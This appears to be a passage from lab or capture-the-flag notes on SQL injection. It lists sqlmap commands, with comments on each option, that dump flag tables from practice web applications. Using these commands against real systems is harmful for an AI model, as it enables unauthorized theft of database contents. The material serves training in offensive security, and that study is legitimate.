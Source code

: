     sqlmap -u 'http://94.237.63.93:57347/case5.php?id=1' -T flag5 --risk=3 --level=5 --no-cast --batch --dump
    # -T flag5 since we want to dump only that particular table
    # --no-cast to avoid cast-alike statements when fetching data, reduce payload size
    ```

    ```shell
    # exploit SQLi vuln in GET param 'col' with non-standard boundaries
    sqlmap -u 'http://94.237.63.93:53938/case6.php?col=id' -T flag6 --dbms="MySQL" --risk=3 --level=5 --batch --dump -v 3
    # --dbms added as it is known
    # -v 3 for verbosity
    # query still timed out, so we can add some custom parameters
    # based on incomplete findings from prev query

    sqlmap -u 'http://83.136.251.235:48127/case6.php?col=id' -D testdb -T flag6 -C id,content --dbms mysql --risk=3 --level=5 --technique="T" --prefix='`)' --batch --dump -v 3
    # -D for database
    # -C for columns of table 'flag6'
    # --technique=T for time-based blind SQLi
    # prefix has been added additionally to save time
    ```

    ```shell
    # exploit SQLi vuln in GET param 'id' using UNION query technique
    sqlmap -u 'http://94.237.55.163:42101/case7.php?id=1' -D testdb --dbms mysql --technique="U" --union-cols=5 --risk=3 --level=5 --no-cast --batch --dump -v
    # --technique="U" for UNION-query based technique
    # --union-cols=5 as 5 columns shown in webpage output
    # removed table and column data from query to keep things simple
    ```
